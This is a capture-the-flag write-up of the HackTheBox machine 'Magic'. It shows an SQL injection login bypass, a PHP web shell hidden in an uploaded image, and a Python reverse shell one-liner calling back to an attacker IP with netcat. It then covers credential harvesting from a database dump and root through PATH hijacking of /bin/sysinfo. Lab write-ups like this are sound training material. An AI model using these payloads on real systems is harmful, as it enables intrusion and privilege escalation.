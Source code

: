 ```yaml
---
title: Magic Writeup
author: mooncakeza
date: 2020-04-20 11:30am
categories: [hackthebox]
tags: [hackthebox, writeup]
math: true
image: /assets/img/htb/Magic/magic_infocard.png
---
```


<p>Let's do an NMAP scan</p>

<img src="/assets/img/htb/Magic/01_nmap.png">

<p>
Browsing to http://10.10.10.185 we get a page with images and on the bottom left a login to upload images
</p>

<img src="/assets/img/htb/Magic/02_login_message.png">

<p>
We click login
</p>

<img src="/assets/img/htb/Magic/03_login_blank.png">

<p>
I tried the default username and password combos but nothing.
Since we have no credentials to try, we can try SQL injection

username: ‘or ’1'='1
password: ‘or ’1'='1
</p>

<img src="/assets/img/htb/Magic/03_login_sql.png">

<img src="/assets/img/htb/Magic/05_upload_img.png">

<p>

Seems we can upload images. Let's see what can be uploaded. Let's just click upload.

</p>

<img src="/assets/img/htb/Magic/06_upload_img_error.png">

<p>

Only JPG, JPEG and PNG files are allowed.
Let's go for the bypassing the filter.

Let's upload a file and see where it saves it to.
It uploads it to the front page on the slider and when you right click to view image we can see it saves it under http://10.10.10.185/images/uploads/

Now let's do some magic

Take any JPG,JPEG or PNG inject it with some code and then rename the file.

</p>

<img src="/assets/img/htb/Magic/07_cmd_image_insert.png">

<p>

Upload this file via the upload page

In another terminal run nc -lvnp 9991

The only payload I found to work was the python method

Now point your browser or use curl to the following URL

http://10.10.10.185/images/uploads/lordcommander.php.jpeg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",9991));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

</p>


<img src="/assets/img/htb/Magic/08_img_rev_shell.png">

<p>

We have a shell!

Let's get an interactive shell

<p>

<ol><li>python -c 'import pty; pty.spawn("/bin/bash")'</li><li>ctrl + z (put's the nc into the background)</li><li>echo $TERM (this gets what your term is set as)</li><li>stty -a (this gets your windows size)</li><li>stty raw -echo (NOTE: you will not see any output after this)</li><li>fg (go back to the nc)</li><li>reset (this resets the terminal settings on the remote machine</li><li>In the Terminal type, type in the $TERM output you got, in my case it was xterm-256color. </li></ol>

</p>

<p>

After enumerating a bit we get the following:

</p>

<img src="/assets/img/htb/Magic/09_db_details.png">

<p>

I tried to use the password to login via ssh and su but both failed.
This is not the password.

Let's enumumerate the database. There is no mysql client installed so the only way now is to do a mysqldump.

</p>

<img src="/assets/img/htb/Magic/10_db_dump.png">

<p>

We then find this in the dump: 

</p>

<img src="/assets/img/htb/Magic/11_db_creds.png">

<p>

We have some creds. Password reuse?
let us just su to the user with the password.

</p>


<img src="/assets/img/htb/Magic/12_user_login_png.png">

<p>

user flag achieved!

Now for root.

We first have to upload some enumerating scripts.
I uploaded both LinEnum or LinPEAS and found this pretty interesting:

</p>

<img src="/assets/img/htb/Magic/13_exec_files.png">

<p> 

/bin/sysinfo is executable and the user group has permissions to run it.

There is another tool called pspy64 which monitors linux processes and we can use this to see what it does in the background. So we run /bin/sysinfo and monitor pspy and see the following.

</p>

<img src="/assets/img/htb/Magic/14_fdisk.png">

<p>

sysinfo calls a few files and seems like we can inject our own path to a custom fdisk file to maybe create a reverse shell?

First in another terminal run our nc -lvnp 9994 

Back to the magic terminical and let us add /tmp into the system PATH

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin:/usr/games:/usr/local/games:/snap/bin:/tmp

We then create a file in /tmp with the following.

</p>

<img src="/assets/img/htb/Magic/15_python_shell.png">

<p>

Make it executable and then run /bin/sysinfo again and we watch pspy64 again.

</p>

<img src="/assets/img/htb/Magic/16_run_script.png">

<p>

You can see it has now executed our code from the fstab in the /tmp directory instead of the actually operating system's fstab!

Let us pop to the terminal where we can our netcat.

</p>

<img src="/assets/img/htb/Magic/17_shell_pop.png">

<p>

WE HAVE ROOT!

</p>
